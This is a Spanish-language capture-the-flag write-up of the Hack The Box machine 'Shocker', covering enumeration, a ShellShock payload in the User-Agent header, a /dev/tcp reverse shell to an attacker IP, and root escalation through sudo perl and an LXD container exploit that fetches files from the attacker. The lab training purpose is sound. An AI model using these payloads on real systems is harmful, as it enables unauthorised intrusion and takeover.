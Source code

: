 ```yaml
---
layout: post
title: HTB_Shocker
date: 2023/07/10
---
```


# Shocker {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se shocker.

El replay del live se puede ver aqui

[![S4vitaar Shocker maquina](https://img.youtube.com/vi/7BGLph5TWMY/0.jpg)](hhttps://www.youtube.com/watch?v=7BGLph5TWMY)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.56
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.56
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.56 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,2222 10.10.10.56 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta?           |
| ------ | -------- | ------------------ | -------------------- |
| 80     | http     | Web, Fuzzing       |                      |
| 2222   | ssh      | Conneccion directa | usuario y contraseña |




### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.56
```

Nada interesante aqui

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p80 10.10.10.56 -oN webScan
```

Nada interesante.

#### Analyzando la web con Firefox {-}

Hay una pagina que nos dice *Don't Bug Me!* y nada mas. Como la maquina se llama Shocker, pensamos directamente al ataque ShellShock

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ/
```

Encontramos una routa muy interesante que es el `cgi-bin` que es la routa donde si la bash es vulnerable podemos hacer un ataque shellshock.

## Vulnerability Assessment {-}

### ShellShock attack {-}

1. creamos un diccionario de extensiones

    ```bash
    nano extension.txt

    sh
    pl
    py
    cgi
    ```

1. lanzamos nuevamente wfuzz con la extension

    ```bash
    wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extension.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
    ```

Como aqui hemos encontrado un fichero `user.sh` lanzamos un curl para ver lo que es.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh"
```

Ya podemos lanzar el ataque shellshock cambiando la cabezera User-Agent.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; }; /usr/bin/whoami"
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /usr/bin/whoami"
```

Vemos la respuesta shelly quiere decir que estamos en capacidad de ejecutar commandos a nivel de systema, gracias a esta vulnerabilidad.## Vuln exploit & Gaining Access {-}

### Ganando accesso desde la vulnerabilidad ShellShock {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Entablamos una reverse shell

    ```bash
    curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1
    ```

Hemos ganado accesso al systema.


### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a `whoami` vemos que ya estamos shelly y que podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
id
sudo -l
```

Vemos que estamos en el grupo lxd ;) y ademas podemos ejecutar /usr/bin/perl como root si proporcionar contraseña.

### Escalar privilegios con /usr/bin/perl {-}

```bash
sudo -u root perl -e 'exec "/bin/sh"'
whoami 
#Output
root
```

### Escalar privilegios con LXD {-}

```bash
searchsploit lxd
searchsploit -x 46978
```

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

```bash
uname -a
```

Seguimos los passos del exploit

1. En la maquina de attaquante

    ```bash
    wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
    chmod +x build-alpine
    ./build-alpine # --> para maquinas x64
    ./build-alpine -a i686 # --> para maquinas i686
    searchsploit -m 46978
    mv 46978.sh lxd_privesc.sh
    dos2unix lxd_privesc.sh
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    wget http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz
    wget http://10.10.14.20/lxd_privesc.sh
    chmod +x lxd_privesc.sh
    ./lxd_privesc.sh -f alpine-v3-14-i686-20210728_2134.tar.gz
    ```

1. vemos un error `error: This must be run as root`. Modificamos el fichero lxd_privesc.sh

    ```bash
    nano lxd_privesc.sh
    ```

    en la function createContainer(), borramos la primera linea:
    
    ```bash
    # lxc image import $filename --alias alpine && lxd init --auto
    ```

1. Ya estamos root pero en el contenedor. Modificamos la `/bin/bash` de la maquina

    - en el contenedor

        ```bash
        cd /mnt/root
        ls
        cd /bin
        chmod 4755 bash
        exit
        ```

    - en la maquina victima

        ```bash
        bash -p
        whoami
        #Output
        root
        ```

